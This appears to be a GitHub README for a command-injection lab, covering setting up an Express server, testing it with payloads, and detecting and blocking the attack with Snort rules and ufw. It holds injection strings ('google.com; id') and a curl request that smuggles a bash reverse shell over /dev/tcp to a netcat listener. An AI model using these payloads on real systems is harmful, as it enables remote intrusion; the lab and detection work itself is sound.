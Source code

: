 ## Running the Server

To run the Server, follow these steps:

### Install npm
```bash
sudo apt install npm
```

### Install Express.js using npm:

```bash
npm install express
```

### Run the server:

```bash
node server.js
```

### Payload

Use the following payloads for testing:

```plaintext
google.com; id
google.com&&id
```

```bash
# Setup a Netcat listener On Kali
nc nc -lnvp 4444

#  Send request with payload
curl "http://{dest_id}:{dest_port}/execute?cmd=ping&target=google.com;bash+-c+'bash+-i+>%26+/dev/tcp/{src_ip}/{src_port}+0>%261'"
```

### Detecting Semicolons in Input with Snort

To detect semicolons in input, use the following Snort rule:

```plaintext
alert tcp any any -> $HOME_NET 3000 (msg:"Possible command injection attempt - semicolon in input (\;)"; content:"|3B|"; nocase; sid:1000001; rev:1;)
```

### Detecting Multiple Commands in Input with Snort

To detect multiple commands in input, use the following Snort rule:

```plaintext
alert tcp any any -> $HOME_NET 3000 (msg:"Possible command injection attempt - multiple commands in input (&&)"; content:"|26 26|"; nocase; sid:1000002; rev:1;)
```

### Run Snort
```
sudo snort -A console -c /etc/snort/snort.conf
```

### Deny traffic from Kali on Ubuntu Desktop
```
sudo ufw status
sudo ufw enable
sudo ufw deny from 192.168.1.114 to any
sudp ufw status
```

### Checking all active shell
```

```